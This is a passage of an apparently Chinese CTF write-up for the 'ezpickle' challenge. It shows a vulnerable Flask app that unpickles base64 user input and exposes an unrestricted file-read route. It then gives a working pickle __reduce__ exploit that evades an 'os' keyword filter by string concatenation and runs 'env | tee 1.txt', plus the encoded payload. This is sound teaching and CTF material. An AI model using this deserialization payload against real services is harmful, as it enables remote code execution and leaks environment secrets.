 ```python
            print("flag:" + flag)
            if j == '}':
                break
```





#### ezpickle

一个简单的pickle反序列化

```python
import base64
import pickle
from flask import Flask, request

app = Flask(__name__)


@app.route('/')
def index():
    with open('app.py', 'r') as f:
        return f.read()


@app.route('/calc', methods=['GET'])
def getFlag():
    payload = request.args.get("payload")
    pickle.loads(base64.b64decode(payload).replace(b'os', b''))
    return "ganbadie!"


@app.route('/readFile', methods=['GET'])
def readFile():
    filename = request.args.get('filename').replace("flag", "????")
    with open(filename, 'r') as f:
        return f.read()


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

因为此处有一个读文件路由 `readFile`，所以我们可以利用`tee`命令，将flag放入文件中

因为此处过滤的关键字 `os`，所以我们可以使用拼接绕过，直接给脚本：

```python
import base64
import pickle


class Evil():
    def __reduce__(self):
        cmd = ("__import__('o'+'s').system('env | tee 1.txt')",)
        return (eval, cmd)


print(base64.b64encode(pickle.dumps(Evil())))

输出：
b'gASVSQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwtX19pbXBvcnRfXygnbycrJ3MnKS5zeXN0ZW0oJ2VudiB8IHRlZSAxLnR4dCcplIWUUpQu'
```
